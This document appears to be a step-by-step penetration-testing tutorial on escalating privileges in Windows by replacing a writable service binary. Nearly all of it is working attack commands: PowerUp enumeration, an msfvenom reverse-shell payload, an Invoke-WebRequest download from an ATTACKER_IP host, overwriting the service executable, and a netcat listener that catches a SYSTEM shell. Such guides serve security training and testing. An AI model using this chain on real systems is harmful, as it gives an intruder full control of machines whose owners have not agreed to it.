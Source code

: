 **Insecure service permissions** in Windows can allow local privilege escalation if a low-privileged user can modify or replace the executable of a service running with SYSTEM privileges. This technique involves identifying misconfigured services, verifying write permissions, replacing the service binary with a malicious payload, and restarting the service to gain elevated access.

---

## 1. Enumerate Vulnerable Services

Use `PowerUp` or similar tools to find services with weak permissions.

```powershell
# Run PowerUp to find vulnerable services
Invoke-AllChecks
```

Look for output like:

```
ModifiableService - Name: VulnService - Path: C:\Program Files\VulnService\service.exe
```

---

## 2. Verify Permissions on the Service Executable

Check if your user has write access to the service binary.

```powershell
# Check permissions on the service executable
icacls "C:\Program Files\VulnService\service.exe"
```

Look for something like:

```
BUILTIN\Users:(I)(F)
```

This means users can **fully control** the file.

---

## 3. **Generate a Malicious Payload with msfvenom

On your Kali machine, create a reverse shell payload named exactly like the service executable.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f exe -o service.exe
```

Replace `YOUR_IP` and `YOUR_PORT` with your Kali listener details.

---

## 4. Transfer the Payload to the Windows Machine

Use SMB, Python HTTP server, or any file transfer method.

```bash
# Example using Python HTTP server
python3 -m http.server 8080
```

On Windows (PowerShell):

```powershell
Invoke-WebRequest -Uri "http://ATTACKER_IP:8080/service.exe" -OutFile "C:\Program Files\VulnService\service.exe"
```

---

## 5. Replace the Original Executable

Overwrite the existing service binary with your payload.

```powershell
# Backup original (optional)
Copy-Item "C:\Program Files\VulnService\service.exe" "C:\Program Files\VulnService\service_backup.exe"

# Replace with malicious payload
Copy-Item "C:\Users\Public\service.exe" "C:\Program Files\VulnService\service.exe" -Force
```

---

## 6. Restart the Service

Trigger the service to run your payload.

```powershell
# Restart the vulnerable service
Restart-Service -Name "VulnService"
```

---

## 7. Catch the Reverse Shell

On Kali, start your listener:

```bash
nc -lvnp YOUR_PORT
```

Once the service restarts, you should receive a shell with SYSTEM privileges.
